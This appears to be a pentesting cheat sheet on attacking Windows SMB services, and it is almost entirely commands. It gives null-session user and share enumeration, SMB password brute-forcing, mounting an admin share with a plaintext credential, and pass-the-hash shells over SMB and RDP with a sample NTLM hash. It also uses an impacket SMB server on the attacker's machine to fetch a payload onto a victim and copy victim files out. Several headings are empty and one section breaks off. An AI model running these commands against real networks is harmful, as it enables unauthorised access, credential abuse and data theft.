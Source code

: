 <https://highon.coffee/blog/enum4linux-cheat-sheet/>

mount -t cifs "//10.11.1.49/admin$" /mnt/windows/ -o username=bethany\alice,domain=workgroup,password=loading1 --verbose

## SMB Enum


## Fingerprint SMB version


## Find open SMB Shares


## Enumerate SMB Users


## SMB Server


## Pass the hash
**SMB**
In order to use pass the hash, we first need to put the hash in a env variable using the export command:


So we will atuhenticate against a smb-service.


I think you can run it like this too:


**Remote Desktop**


## Exploits
EternalBlue (MS17.010.

```sh
nmblookup -A 10.1.1.1

smbclient //MOUNT/share -I 10.1.1.1 -N
# connect to share, -N no password prompt

smbclient -L \\10.11.1.1 -U bob -S off
rpcclient -p 139 -U "bob" -S off 10.11.1.1
# disable message signing

rpcclient -U "" 10.1.1.1
# works on older windows versions

enum4linux 10.1.1.1
# discover Windows/Samba servers on subnet, finds Windows MAC addresses, netbios name & discover client workgroup/domain

nbtscan 10.1.1.0/24
# do everything, runs all options apart from dictionary based share name guessing

enum4linux -a 10.1.1.1
# performs all basic enumeration using smb null session

enum4linux -U 192.168.1.2   
#-You will get userlist
# SMB null session is an unauthenticated netbios session between two computers.
# SMB null session is available for SMB1 systems only i.e 2000,xp,2003

#To use an smb null session :
rpcclient -U "" 192.168.1.2
#when asked enter empty password
rpcclient $>srvinfo
rpcclient $>enumdomusers
rpcclient $>querydominfo
rpcclient $>getdompwinfo
#password policy
rpcclient $>netshareenum
nmblookup -A 192.168.1.1
rpcinfo -p <target>

#Enumerate using smbclinet:
smbclient -L //192.168.1.2
smbclient -L //192.168.1.2/myshare -U anonymous

smb> get data.txt
smb>put evil.txt

#Brute SMB password:
nmap -p445 --script=smb-brute.nse <ip>

# Brute force should always be your last option. 
# You can also use hydra to do it.

#Using nmap:
nmap -sU -sS --script=smb-enum-users -p U:137,T:139 192.168.1.200-254

nmap -T4 -v -oA shares --script smb-enum-shares --script-args smbuser=username,smbpass=password -p445 192.168.1.0/24

nmap -sSU -script smb-os-discovery.nse -p U:137,T:139,445 --script-args=smbsign=disable,smbuser=username,smbpass=password -oA 10.11.1.5_smbos -vv -n -Pn 10.11.1.5

nmap -sSU -script smb-vuln\* -p U:137,T:139,445 --script-args=smbsign=disable,smbuser=username,smbpass=password -oA 10.11.1.5_smbvuln -vv -n -Pn 10.11.1.5

nmap -sSU -script smb-enum\* -p U:137,T:139,445 --script-args=smbuser=username,smbpass=password -oA 10.11.1.5_smbenum -vv -n -Pn 10.11.1.5
```

```sh
None
```

```sh
nmap -oA 192.168.1.0_shares --script=smb-enum-shares --script-args=smbuser=username,smbpass=password -p445 192.168.1.0/24   
# possible techniques - specify no creds, empty creds, correct creds and incorrect creds

smbclient -L //192.168.1.100 -N
#list shares with no password prompt
```

```sh
nmap --script=smb-enum-users -sSU -pU:137,T:139 -oA 192.168.1.200-254_smbusers 192.168.11.200-254 
```

```sh
python /usr/share/doc/python-impacket/examples/smbserver.py probfine ./

#Get
copy \\10.1.1.1\probfine\payload .

#Put
copy C:\coolinfo \\10.1.1.1\probfine\
```

```sh
export SMBHASH=aad3b435b51404eeaad3b435b51404ee:6F403D3166024568403A94C3A6561896
```

```sh
pth-winexe -U administrator //192.168.1.101 cmd
```

```sh
pth-winexe -U admin/hash:has //192.168.0.101 cmd
```

```sh
apt-get update
apt-get install freerdp-x11

xfreerdp /u:admin /d:win7 /pth:hash:hash /v:192.168.1.101
```
